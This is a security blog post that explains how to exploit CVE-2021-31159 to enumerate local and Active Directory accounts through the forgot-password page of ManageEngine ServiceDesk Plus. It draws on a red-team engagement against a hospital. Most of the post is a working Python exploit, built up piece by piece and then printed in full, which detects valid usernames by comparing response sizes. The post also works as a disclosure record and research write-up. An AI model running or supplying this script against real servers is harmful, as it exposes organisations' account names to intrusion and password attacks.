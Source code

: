 ```yaml
---
layout: post
title: Abusing CVE-2021-31159 for ServiceDesk Plus user enumeration 
---
```


Link: [https://github.com/ricardojoserf/CVE-2021-31159](https://github.com/ricardojoserf/CVE-2021-31159)

This vulnerability takes advantage of ServiceDesk Plus having different output in the password recovery functionality: if the user exists it returns a message claiming an email has been sent but if it does not exist the message is constant.

Knowing this, it is possible to enumerate accounts in the application or, even better, accounts of an Active Directory if AD authentication is enabled. Very useful when the application is open to the internet and the format of the AD user accounts (for example, name initial + surname) is known.


---------------------------------------------------


## Finding and exploiting it

I found this vulnerability during a Red Team assesment in which there was an outdated ServiceDesk Plus server open to the Internet. In the login page, these servers allow to use local authentication or an AD domain (in this case I changed it to HOSPITAL.DOMAIN):

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image0.png?raw=true)


In the "forgot password" page, if the user does not exist you get a message like this:

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image1.png?raw=true)

This message is constant, and so has the same size, but it changes if the username is correct (in that case, it states the user will receive an email to update the password). So we can enumerate users, both local and in a domain. If the server is exposed to the Internet, such as in this case, we can enumerate the internal domain users!

I tested typical AD username formats using the most common Spanish surnames (this was a hospital in Spain), such as (name + surname) or (first letter of name + surname). I was lucky with the latter, using the initial "d" and the very common surname "García":

![Login 2](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image2.png?raw=true)

Then I tested all the alphabet with other common surname, García, using Burp:

![Burp](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image3.png?raw=true)

Nice, we got some correct users! We can use the Python library "requests" and get the same results:

![Python example](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image4.png?raw=true)


## Creating the exploit

Now it is time to automate this attack using Python.

#### Creating the parser

First we create a parser with the library "argparse" to have the following parameters:

- domain: The AD Domain to attack
- target: The target url
- usersfile: File containing list of users
- outputfile (optional): File to store the correct users

```
def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args
```


#### Creating the main function and getting the parameters values

Next, we will define the main function, which will be the first one to run, and grab the content of the parameters calling the already defined function "get_args":

```
def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile
```

#### Getting the "incorrect size"

First we will test a user that will never exist to check the bytes in the response from the "forgot password" functionality. We will compare this size with different users: if the user does not exist, the size will be this.

```
resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))
```

#### Finding correct users 

To check the list of users from te file, we will open it and create a list with each username from the file:

```
	users = open(usersfile).read().splitlines()
```

Then we will iterate each user and create a request to the "forgot passsword" functionality, and checking the response size to find if it exists. If it does, it is added to the "correct_users" list:

```
	correct_users = []
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))
```

Finally, we will write the correct users to a file and print each of them:

```
	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))
```


#### Final exploit

The final result is (this script)[https://github.com/ricardojoserf/CVE-2021-31159/blob/main/exploit.py]:

```
# Exploit Title: Zoho ManageEngine ServiceDesk Plus MSP - Active Directory User Enumeration (CVE-2021-31159)
# Date: 17/06/2021
# Exploit Author: Ricardo Ruiz (@ricardojoserf)
# CVE: CVE-2021-31159 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159)
# Vendor Homepage: https://www.manageengine.com
# Vendor Confirmation: https://www.manageengine.com/products/service-desk-msp/readme.html#10519
# Version: Previous to build 10519
# Tested on: Zoho ManageEngine ServiceDesk Plus 9.4
# Example: python3 exploit.py -t http://example.com/ -d DOMAIN -u USERSFILE [-o OUTPUTFILE]
# Repository (for updates and fixing bugs): https://github.com/ricardojoserf/CVE-2021-31159

import argparse
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args


def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile

	s = requests.session()
	s.get(url)
	resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))

	correct_users = []
	users = open(usersfile).read().splitlines()
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))


if __name__ == "__main__":
    main()
```
